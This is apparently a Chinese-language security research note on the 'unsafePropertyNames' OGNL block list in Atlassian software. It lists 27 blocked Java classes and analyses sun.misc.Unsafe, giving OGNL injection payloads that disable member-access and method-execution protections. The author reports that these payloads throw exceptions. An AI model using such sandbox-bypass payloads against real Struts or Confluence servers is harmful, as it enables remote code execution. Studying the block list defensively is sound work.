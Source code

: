 
- [unsafePropertyNames](#unsafepropertynames)
    - [0 = "sun.misc.Unsafe"](#0--sunmiscunsafe)
    - [1 = "classLoader"](#1--classloader)
    - [2 = "java.lang.System"](#2--javalangsystem)
    - [3 = "java.lang.ThreadGroup"](#3--javalangthreadgroup)
    - [4 = "com.opensymphony.xwork.ActionContext"](#4--comopensymphonyxworkactioncontext)
    - [5 = "java.lang.Compiler"](#5--javalangcompiler)
    - [6 = "com.atlassian.applinks.api.ApplicationLinkRequestFactory"](#6--comatlassianapplinksapiapplicationlinkrequestfactory)
    - [7 = "java.lang.Thread"](#7--javalangthread)
    - [8 = "com.atlassian.core.util.ClassLoaderUtils"](#8--comatlassiancoreutilclassloaderutils)
    - [9 = "java.lang.ProcessBuilder"](#9--javalangprocessbuilder)
    - [10 = "java.lang.InheritableThreadLocal"](#10--javalanginheritablethreadlocal)
    - [11 = "com.atlassian.core.util.ClassHelper"](#11--comatlassiancoreutilclasshelper)
    - [12 = "class"](#12--class)
    - [13 = "java.lang.Shutdown"](#13--javalangshutdown)
    - [14 = "java.lang.ThreadLocal"](#14--javalangthreadlocal)
    - [15 = "java.lang.Process"](#15--javalangprocess)
    - [16 = "java.lang.Package"](#16--javalangpackage)
    - [17 = "org.apache.tomcat.InstanceManager"](#17--orgapachetomcatinstancemanager)
    - [18 = "java.lang.Runtime"](#18--javalangruntime)
    - [19 = "javax.script.ScriptEngineManager"](#19--javaxscriptscriptenginemanager)
    - [20 = "javax.persistence.EntityManager"](#20--javaxpersistenceentitymanager)
    - [21 = "org.springframework.context.ApplicationContext"](#21--orgspringframeworkcontextapplicationcontext)
    - [22 = "java.lang.SecurityManager"](#22--javalangsecuritymanager)
    - [23 = "java.lang.Object"](#23--javalangobject)
    - [24 = "java.lang.Class"](#24--javalangclass)
    - [25 = "java.lang.RuntimePermission"](#25--javalangruntimepermission)
    - [26 = "javax.servlet.ServletContext"](#26--javaxservletservletcontext)


# unsafePropertyNames

### 0 = "sun.misc.Unsafe"
* 有一种方式可以有意的执行一些不安全、容易犯错的操作，就是使用 `Unsafe` 类
* jdk11 中这个包被移至 `jdk.internal.misc` package 下
* [参考 Unsafe](https://www.jianshu.com/p/e4ec4fe9b5a5)
* src-code 里构造器私有，不能直接实例化  
  [Jump to sun.misc.Unsafe](./assets/Unsafe.java)
* payload
  ```js
  // high risk
  // 但不能这么用，会抛异常
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @sun.misc.Unsafe@getUnsafe()}

  // medium risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #f=@sun.misc.Unsafe.class.getDeclaredField("theUnsafe"),
    #f.setAccessible(true),
    #unsafe=#f.get(null)}
  ```
  出现异常